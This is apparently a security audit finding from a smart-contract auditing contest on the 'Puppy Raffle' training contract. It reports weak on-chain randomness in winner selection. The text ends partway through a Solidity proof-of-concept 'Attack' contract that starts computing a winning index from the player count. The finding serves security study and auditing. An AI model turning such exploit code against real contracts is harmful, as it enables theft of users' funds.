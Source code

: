 [silvana](https://profiles.cyfrin.io/u/undefined), [hueber](https://profiles.cyfrin.io/u/undefined), [ezerez](https://profiles.cyfrin.io/u/undefined), [Oozman](https://profiles.cyfrin.io/u/undefined), [harpaljadeja](https://profiles.cyfrin.io/u/undefined), [musashi](https://profiles.cyfrin.io/u/undefined), [robbiesumner](https://profiles.cyfrin.io/u/undefined), [damoklov](https://profiles.cyfrin.io/u/undefined), [cromewar](https://profiles.cyfrin.io/u/undefined), [printfjoby](https://profiles.cyfrin.io/u/undefined), [0xhashiman](https://profiles.cyfrin.io/u/undefined), [0xth30r3m](https://profiles.cyfrin.io/u/undefined), [codyx](https://profiles.cyfrin.io/u/undefined), [Leogold](https://profiles.cyfrin.io/u/undefined), [0xlouistsai](https://profiles.cyfrin.io/u/undefined), [davide](https://profiles.cyfrin.io/u/undefined), [0x0bserver](https://profiles.cyfrin.io/u/undefined). Selected submission by: [efecarranza](https://profiles.cyfrin.io/u/undefined)._

### Relevant GitHub Links

https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/main/src/PuppyRaffle.sol#L128

## Summary

The randomness to select a winner can be gamed and an attacker can be chosen as winner without random element.

## Vulnerability Details

Because all the variables to get a random winner on the contract are blockchain variables and are known, a malicious actor can use a smart contract to game the system and receive all funds and the NFT.

## Impact

Critical

## Tools Used

Foundry

## POC

```javascript
// SPDX-License-Identifier: No-License

pragma solidity 0.7.6;

interface IPuppyRaffle {
    function enterRaffle(address[] memory newPlayers) external payable;

    function getPlayersLength() external view returns (uint256);

    function selectWinner() external;
}

contract Attack {
    IPuppyRaffle raffle;

    constructor(address puppy) {
        raffle = IPuppyRaffle(puppy);
    }

    function attackRandomness() public {
        uint256 playersLength = raffle.getPlayersLength();

        uint256 winnerIndex;
        uint256 toAdd = playersLength;
        while (true) {
            winnerIndex =
```